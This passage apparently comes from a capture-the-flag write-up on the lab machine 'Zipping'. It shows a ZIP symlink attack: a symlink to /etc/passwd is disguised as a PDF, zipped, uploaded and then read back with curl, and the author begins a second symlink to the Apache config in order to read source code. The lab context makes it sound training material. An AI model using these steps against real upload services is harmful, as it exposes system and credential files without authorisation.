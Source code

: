 






 Lets check the website . Now look at this i tried upload shell from here using null byte but it is nothing because the creator was patched for null bytes . So lets try using [ZIP Symlink Vulnerability](https://effortlesssecurity.in/zip-symlink-vulnerability/) you can see here to exploit `ZIP SYMLINK`.The exploit work for read file and folder like lfi but using PDF file so to create malicious pdf using `ln` command

 `ln -s /etc/passwd etc.pdf` after that zip this file using zip
 `zip -r etc.zip etc.pdf` and upload the zip file at zipping upload .

 After you uploaded the zip file there would give link file pdf like this `http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`

 so now to read /etc/passwd using curl command

 `curl http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`
 
 ![](images/2024-01-19-13-42-57.png)

&nbsp;




 So now we need read source code file zipping to code analysis to exploit the vuln . To knows where the path domain read the apache config or nginx config . The website using apache . So i need recreate zip symlink again .

 `ln -s /etc/apache2/sites-available/000-default.conf apache.pdf`
